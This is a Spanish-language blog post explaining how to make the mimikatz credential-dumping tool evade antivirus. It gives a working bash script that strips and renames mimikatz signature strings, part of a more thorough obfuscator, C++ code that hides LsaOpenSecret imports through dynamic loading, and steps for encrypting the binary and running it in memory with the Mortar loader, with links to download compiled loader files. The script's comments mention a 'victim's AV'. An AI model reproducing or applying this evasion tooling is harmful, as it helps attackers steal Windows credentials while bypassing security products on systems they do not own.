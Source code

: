 ```yaml
---
layout: single
title:  "Creando nuestro propio binario de mimikatz (indetectable)"
categories: [articulos, AD, malware, bypass]
---
```


### En este post vamos a cubrir primero un método manual en el que vamos a modificar el código fuente de mimikatz para cambiar y ofuscar las palabras que usa normalmente el binario y luego con el uso de una herramienta terminar de encodearlo y ejecutarlo desde la memoria  

Para hacer esto voy a utilizar la versión de [version de desarrollador de windows ](https://developer.microsoft.com/es-es/windows/downloads/virtual-machines/) con [CommandoVM](https://github.com/mandiant/commando-vm)

Empezando con que ya existen varios artículos de este tema, pero no es español y sobre todo se enfocan en bypassear el [Invoke-Powershell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) esta vez vamos a ofuscar el binario desde el código fuente 

Veamos que es lo primero que imprime al ejecutar

![mimi_logo](/assets/articulos/custom-mimikatz/primer_mimi.png) 


Como podemos ver, más allá del comportamiento del archivo están las palabras obvias que buscaría un antivirus como 


|  “A La Vie, A L’Amour” | mimikatz, MIMIKATZ |
|http://blog.gentilkiwi.com/mimikatz| DELPY, Benjamin, benjamin@gentilkiwi.com |
|Vincent LE TOUX| creativecommons |
|vincent.letoux@gmail.com| gentilkiwi |
|http://pingcastle.com| KIWI, Kiwi |
|http://mysmartlogon.com|   |


Todas estas palabras del menú indicarían que mimikatz se está ejecutando así que ya tenemos una idea de que es lo primero que vamos a cambiar.
Si buscamos más a fondo en algunas [wikis](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md) encontramos mas palabras clave


- crypto, dpapi, kerberos, lsadump, ngc, sekurlsa
- standard, privilege, process, service, ts, event
- misc, token, vault, minesweeper, net, busylight
- sysenv, sid, iis, rpc, sr98, rdm, acr

Y porque no cambiar el mismo logo del que se encuentra en *mimikatz.c*

![mimi_logo_code](/assets/articulos/custom-mimikatz/mimi_logo.png) 

Aqui hay un [gist](https://gist.github.com/imaibou/92feba3455bf173f123fbe50bbe80781) en el cual con un script buscamos algunas de esas palabras claves y las borramos 

```bash

# This script downloads and slightly "obfuscates" the mimikatz project.
# Most AV solutions block mimikatz based on certain keywords in the binary like "mimikatz", "gentilkiwi", "benjamin@gentilkiwi.com" ..., 
# so removing them from the project before compiling gets us past most of the AV solutions.
# We can even go further and change some functionality keywords like "sekurlsa", "logonpasswords", "lsadump", "minidump", "pth" ....,
# but this needs adapting to the doc, so it has not been done, try it if your victim's AV still detects mimikatz after this program.

git clone https://github.com/gentilkiwi/mimikatz.git windows
mv windows/mimikatz windows/windows
find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/James/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/Troy/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/jtroy@hotmail.com/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/python/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
find windows/ -type f -name '*mimikatz*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
	mv "${FILE}" "${newfile}";
done02
find windows/ -type f -name '*kiwi*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
	mv "${FILE}" "${newfile}";
done

```
Después de investigar un poco he encontrado una versión de este gist, pero con esteroides, con este script no solo cambiamos cada una de las palabras típicas de mimikatz, además cambiamos los nombres de las funciones, de los dll, de los archivos .c cambia hasta el icono del .exe. No lo puedo poner en el artículo porque ocuparía todo

### [mimikatz obfuscator](https://gist.github.com/S3cur3Th1sSh1t/cb040a750f5984c41c8f979040ed112a) <br>(gracias a S3cur3Th1sSh1t por el script)

Si analizamos un poco el código vemos como se mete tanto dentro de los archivos, con los nombres de los archivos, con los nombres y hasta cambiaria la estructura del proyecto entero 


```bash
find windows/ -type f -print0 | xargs -0 sed -i "s/List Kerberos tickets/-/g"

mimi=$(cat /dev/urandom | tr -dc "a-zA-Z" | fold -w 8 | head -n 1)
mv windows/mimikatz windows/$mimi

find windows/ -type f -name "*mimikatz*" | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e "s/mimikatz/$mimi/g")";
	mv "${FILE}" "${newfile}";
done
```

Es hora de verlo en acción. Pero aún faltan algunas cosas para cambiar del código 


### Notas a tener en cuenta al compilar mimikatz por primera vez   
Si es la primera vez que vais a compilar mimikatz en visual studio code tenéis que tener en cuenta lo siguiente

- Primero en quitar el warning level en *"Project"->Properties->Configuration Properites->General* y ponerlo en W0

 ![warning](/assets/articulos/custom-mimikatz/vscode_log.png) 

 - Después en platform toolset tenemos que poner el *v141_xp* esto normalmente te sale, pero no está instalado, se instala en*"tools"-> Get tools and features*

 ![v141_xp](/assets/articulos/custom-mimikatz/v141_xp.png) 

- Después de tener esto listo ejecutamos nuestro script el cual va a descargar y obfuscar automaticamente, luego se supone que lo guarda en un .zip, pero cada quien lo puede cambiar a que haga lo que quiera
 
*Este proceso tarda 20-30 min*

 ![cmd_obfs](/assets/articulos/custom-mimikatz/cmdobfuscated.png) 

El script debe cambiar el nombre de algunas carpetas como lo hemos visto antes y nos deberia quedar algo asi


 ![folder2](/assets/articulos/custom-mimikatz/folder2.png)<br>

### API imports 

Muchos antivirus detectan el comportamiento de mimikatz por sus llamadas al windows api. Que se conoce como *LSAOpenSecret* así que una forma de ocultar estas llamadas seria con el siguiente código.

```c++

typedef NTSTATUS(__stdcall* _LsaOSecret)(
	__in LSA_HANDLE PolicyHandle,
	__in PLSA_UNICODE_STRING SecretName,
	__in ACCESS_MASK DesiredAccess,
	__out PLSA_HANDLE SecretHandle
	);
char hid_LsaLIB_02zmeaakLCHt[] = { 'a','d','v','a','p','i','3','2','.','D','L','L',0 };
char hid_LsaOSecr_BZxlW5ZBUAAe[] = { 'L','s','a','O','p','e','n','S','e','c','e','t',0 };
HANDLE hhid_LsaLIB_asdasdasd = LoadLibrary(hid_LsaLIB_02zmeaakLCHt);
_LsaOSecret ffLsaOSecret = (_LsaOSecret)GetProcAddress(hhid_LsaL

```

Ocultando *SamEnumerateUserDomain*, *SamOpenUser*, *LsaSetSecret* y mas ya tendriamos casi listo nuestro binario indetectable <br>
*NO* utilizar el mismo codigo, tienes que randomizar aun mas las variables

### mortar

Por ultimo, vamos a terminar de limpiar el binario y a ejecutarlo directamente en la memoria con una heramienta llamada *mortar* que nos va a hacer el proceso de ejecucion aun mas bypasseable <br>
 
[mortar github](https://github.com/0xsp-SRD/mortar)

- Primero le pasamos el .exe que hemos creado antes lo encodea con *encyptor.exe* y despues lo ejecutamos con el *deliver.exe*

Mortar Loader realiza el cifrado y descifrado del binario seleccionado dentro de los flujos de memoria y lo ejecuta directamente sin escribir ningún indicador malicioso en el disco duro. Mortar puede eludir los productos antivirus modernos y las soluciones XDR

mortar es una herramienta hecha en pascal, os dejo los binarios compilados aqui:
[encryptor.exe](/assets/articulos/custom-mimikatz/encryptor.exe) <br>
[deliver.exe](/assets/articulos/custom-mimikatz/deliver.exe) <br>
[agressor.dll](/assets/articulos/custom-mimikatz/agressor.dll) <br>

- Primero le pasamos el mimikatz antes creado para que lo termine de encriptar
![encryptor](/assets/articulos/custom-mimikatz/encryptor.png)<br>

Por último lo ejecutamos de la siguiente manera.

![mimi_run](/assets/articulos/custom-mimikatz/mimi_run.png)<br>


